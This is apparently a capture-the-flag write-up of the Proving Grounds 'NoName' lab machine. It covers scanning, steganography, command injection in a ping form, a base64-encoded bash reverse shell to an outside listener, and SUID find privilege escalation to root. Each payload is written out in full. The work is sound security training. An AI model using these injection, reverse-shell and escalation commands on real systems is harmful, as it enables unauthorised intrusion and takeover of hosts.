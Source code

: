```yaml
---
title: "Proving Grounds - NoName"
date: 2023-07-01 00:31:00 +0300
image: /assets/img/Posts/noname.png
categories: [Offensive security, Intermediate]
tags: [steganography, stegseek, ffuf, SUID, find, nmap, RCE, linux]
---
```


| **Machine**   | **NoName**                       |
| ---------- | ----------------------------------- |
| Author     | **offensive-security**              |
| Difficulty | **Intermediate**                    |

> This is an intermediate machine in offensive security proving grounds testing on some simple streganography and basic enumeration skills.
{: .prompt-tip }

# Let's get started
## Scanning and enumeration
First thing first, we do a simple nmap scan from which we get only `port 80` open. The apache server running on this specific port seems a little outdated. It can be a good thing to check if we miss anything to attack.

```shell
└─$ nmap -T4 -sCV 192.168.222.15   
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-30 23:10 EAT
Nmap scan report for 192.168.222.15
Host is up (0.20s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE    SERVICE   VERSION
23/tcp   filtered telnet
80/tcp   open     http      Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)
1053/tcp filtered remote-as
3007/tcp filtered lotusmtap
7921/tcp filtered unknown

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.96 seconds
```
Opening the port, we get a `fake admin area` panel with an input field. It seemed to be a page where the admin can test whether the machines are up by pinging them. Not here though, its fake, it time we find the real one.

![image](/assets/img/Posts/noname/fake-admin.png)

Whenever we get to a website, we are always recommended to brute force for hidden web directories in the server. We are going to use ffuf. It gives us `admin` directory.

![image](/assets/img/Posts/noname/admin.png)

Visiting the directory we find nothing but images. huh, steganograpphyyyy?? got myself wondering. well. Viewing the source code, we get to see that there are four of them with some `jpg` images among, them. EASY!!

![image](/assets/img/Posts/noname/admin-dash.png)

![image](/assets/img/Posts/noname/images.png)

Downloading them and starting checking for hidden messages in them, i get something in one of the files, which looks like user names. aaargh!

![image](/assets/img/Posts/noname/user.png)

```shell
┌──(prorat㉿prosec)-[~/hacks/offsec/noname]
└─$ cat new.jpeg.out 
admin
Admin
root
admin1
msfadmin
Admin1
```

Checking on the next one, we find a base64 string, nice. 

![image](/assets/img/Posts/noname/bas64.png)

Decoding the string from our terminal using the command `echo "base64-string" | base64 -d`, We get another directory. Impressive!.

![image](/assets/img/Posts/noname/superadmin.png)

Visiting it, we get see the legit ping panel.

![image](/assets/img/Posts/noname/super-ping.png)

Send a simple ping scan `ping <ip>` does not bring anything, using a pipe symbol `|`to chain the commands, and typing `whoami` returns `www-data`.

![image](/assets/img/Posts/noname/rce.png)

This means that we have `code execution`. with a well crafted payload, we can get a reverse shell on the box. Sending a simple revershell on the ping platform does not connect back which made me assume that there are some filtering on the commands are ran.

## Initial access
We get our one-liner bash revershell `bash -i >& /dev/tcp/192.168.45.205/1337 0>&1` and pass it through base64 to encode it.

![image](/assets/img/Posts/noname/bencode.png)

Then echo the base64 string and pipe it to base64 and decode it, then pipe the output to means which executes it. 
```bash
ping 192.168.45.205 | echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjIwNS8xMzM3IDA+JjEK" | base64 -d | bash
```
We get a shell as `www-data`
```shell
┌──(prorat㉿prosec)-[~/hacks/offsec/noname]
└─$ nc -nlvp 1337                                 
listening on [any] 1337 ...
connect to [192.168.45.205] from (UNKNOWN) [192.168.222.15] 49076
bash: cannot set terminal process group (905): Inappropriate ioctl for device
bash: no job control in this shell
www-data@haclabs:/var/www/html$ 

```
## Upgrading the shell
Start by finding which python version is installed in the machine by running `which python3`. Followed by `python3 -c 'import pty;pty.spawn("/bin/bash")'` to spawn a better-featured bash shell, then `export TERM=xterm` which gives us access to term commands. Then run `CTRL + z` to background the session and `stty raw -echo; fg` which turns off our own terminal echo which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes then finally `stty rows 38 columns 116`.
We now have a stable shell.

Going to the home directory, we find two users, `haclabs` and `yash`. Accessing `yash's` directory, we find our flag. 

```shell
www-data@haclabs:/home/yash$ ls -la
total 36
drwxr-xr-x 5 yash yash 4096 Jul 10  2020 .
drwxr-xr-x 4 root root 4096 Jan 27  2020 ..
-rw------- 1 yash yash    0 Mar 16  2020 .bash_history
-rw-r--r-- 1 yash yash 3771 Jan 27  2020 .bashrc
drwx------ 2 yash yash 4096 Feb  9  2020 .cache
drwx------ 3 yash yash 4096 Jan 27  2020 .gnupg
drwxrwxr-x 3 yash yash 4096 Jan 27  2020 .local
-rw-r--r-- 1 yash yash  807 Jan 27  2020 .profile
-rw-rw-r-- 1 yash yash   77 Jan 30  2020 flag1.txt
-rw-r--r-- 1 yash yash   33 Jul  1 01:35 local.txt
www-data@haclabs:/home/yash$ cat local.txt
<redacted>
www-data@haclabs:/home/yash$ 
```
## Privilege escalation
Who is saying linpeas? Not now. First we need to some manual enumeration before we run linpeas. running a `sudo -l`, we are prompted to enter ww-data password. That's a dead end, We then move on and check for any commands that have `SUID` bits set. And we get that we can run `find` as root.

![image](/assets/img/Posts/noname/suid.png)

We then check the command we can ran to abuse the permissions given to us in [GTFObins](https://gtfobins.github.io/) and get root's shell.

![image](/assets/img/Posts/noname/suid-gtfobins.png)

Running the command `find . -exec /bin/sh -p \; -quit` gives us a `#`shell.
```shell
www-data@haclabs:/tmp$ find . -exec /bin/sh -p \; -quit
# whoami
root
# cd /root
# ls
flag3.txt  proof.txt
# cat proof.txt
<redacted>
# 
```

I hope you enjoyed the write up!!. thank you 😁